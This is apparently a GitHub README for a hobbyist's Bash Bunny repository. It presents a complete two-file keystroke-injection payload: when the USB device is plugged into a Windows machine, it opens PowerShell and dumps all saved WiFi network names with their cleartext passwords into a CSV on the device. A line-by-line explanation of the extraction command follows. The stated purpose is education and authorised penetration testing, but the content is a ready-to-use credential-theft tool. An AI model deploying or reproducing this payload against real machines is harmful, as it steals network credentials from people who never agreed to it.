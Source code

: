 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny**. These scripts are intended for **educational purposes, ethical hacking, penetration testing, and cybersecurity research**.



## ⚠ Disclaimer

```
All projects and demonstrations in this portfolio are for educational and ethical cybersecurity research only. Every
technique and tool was used legally within approved environments, adhering to ethical hacking principles, legal
regulations, and responsible disclosure practices. Unauthorized use of these methods on systems without explicit
permission is illegal and strictly discouraged. Always follow legal guidelines and obtain proper authorization
before conducting security assessments.
```

## Bash Bunny Network Key Dumper to CSV (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
# opens the run dialog and waits 500 milliseconds to ensure the run dialog is open
GUI r
DELAY 500

# launches powershell without loading a user profile and waits 500 milliseconds
STRING powershell -NoProfile 
ENTER
DELAY 500

# navigates to the Bash Bunny's USB storage assuming it's labeled BashBunny
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500

# navigates to the loot directory where extracted data will be stored and waits 500 milliseconds
STRING cd loot
ENTER
DELAY 500

# extract WiFi profiles and passwords and saves to a CSV file in loot
STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```
**Explanation of the PowerShell command:**
```
1. `netsh wlan show profiles` – Lists all saved WiFi profiles.
2. `Select-String ":(.+)$"` – Extracts profile names using regex.
3. `netsh wlan show profile name="$name" key=clear` – Retrieves the password for each profile.
4. `Select-String "Key Content\W+\:(.+)$"` – Extracts the WiFi password using regex.
5. `[PSCustomObject]@{ PROFILE_NAME=$name; PASSWORD=$pass }` – Formats the data into objects.
6. `Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"` – Saves the extracted credentials as a CSV file.
7. `exit` – Closes PowerShell.
```



## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)

